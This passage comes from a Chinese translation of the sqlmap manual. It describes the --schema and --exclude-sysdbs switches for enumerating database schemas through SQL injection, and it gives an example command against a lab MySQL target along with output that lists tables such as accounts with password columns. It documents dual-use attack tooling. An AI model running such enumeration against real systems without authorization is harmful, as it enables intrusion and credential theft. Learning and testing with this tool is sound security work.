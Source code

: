 ```
```

请注意，在PostgreSQL上必须提供`public`或系统数据库的名称。这是因为不可能枚举其他数据库表，只有在web应用程序的用户连接到的模式下的表，它总是被`public`所定义。

### 枚举数据库管理系统模式

开关: `--schema` 和 `--exclude-sysdbs`

用户可以通过使用这个开关来检索DBMS模式。模式清单将包含所有数据库、表和列，以及它们各自的类型。与`--exclude-sysdbs`相结合，将检索并显示包含非系统数据库的模式的一部分。

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs

[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```
